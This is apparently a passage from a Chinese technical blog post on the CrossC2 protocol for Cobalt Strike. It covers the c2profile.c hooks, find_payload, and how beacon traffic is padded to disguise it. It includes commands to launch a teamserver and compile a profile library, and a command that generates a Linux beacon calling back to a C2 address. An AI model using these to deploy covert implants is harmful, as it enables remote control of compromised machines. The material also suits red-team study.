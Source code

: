 那么元数据在发送出去前是经过了哪些处理呢？

下边为我画的一张流程图，即发送和接收的处理过程。(图中不包含秘钥交换的过程，更为详细可以参考CobaltStrike协议全析)

数据的流向可以是TeamServer流向Beacon，也可以是Beacon流向TeamServer，不同方向传输使用协议不一样，但是处理元数据的流程是一致的。

![](https://gitee.com/fuli009/images/raw/master/public/20210805100042.png)

# CrossC2通信协议API  

CrossC2提供了一个c2profile.c文件，在该文件内编写相应的c代码，然后打包成.so文件，在使用`./genCrossC2.MacOS`时指定编译好的.so文件。这样生成的Beacon就可以按照c编写的逻辑构造数据包和解码数据包。

其中还提供了一个https.profile，和默认的c2profile.c文件是配对的，可以直接使用。只需要按照下边的命令执操作即可

    
    
    ./teamserver 192.168.225.24 123456 https.profile  
    
    
    
    gcc c2profile.c -fPIC -shared -o lib_rebind_test.so  
    ./genCrossC2.MacOS 192.168.225.24 1443 cobaltstrike.beacon_keys lib_rebind_test.so Linux x64 ./test  
    

## 通信函数介绍

  * Beacon向TeamServer发送数据时触发

    * cc2_rebind_http_get_send

    * cc2_rebind_http_post_send

  * Beacon接收TeamServer响应的数据时触发

    * cc2_rebind_http_get_recv

    * cc2_rebind_http_post_recv

  * 查找有用的数据部分

    * find_payload

## find_payload

该函数用来取出有用的那部分数据，prepend和append部分拼接的数据只是为了达到伪装的效果，实际上传输的真正数据部分也就`baseurl(mask(metadata))`部分。

prepend + prepend + `baseurl(mask(metadata))` \+ append 对应下图红框部分

![](https://gitee.com/fuli009/images/raw/master/public/20210805100043.png)

它的使用很简单，只需要标记要切割部分数据的开始和结尾即可。  

![](https://gitee.com/fuli009/images/raw/master/public/20210805100045.png)

## 编码解码梳理

C2-Profile的`server { ... output { ... } }`中描述了TeamServer响应的数据是如何编码的
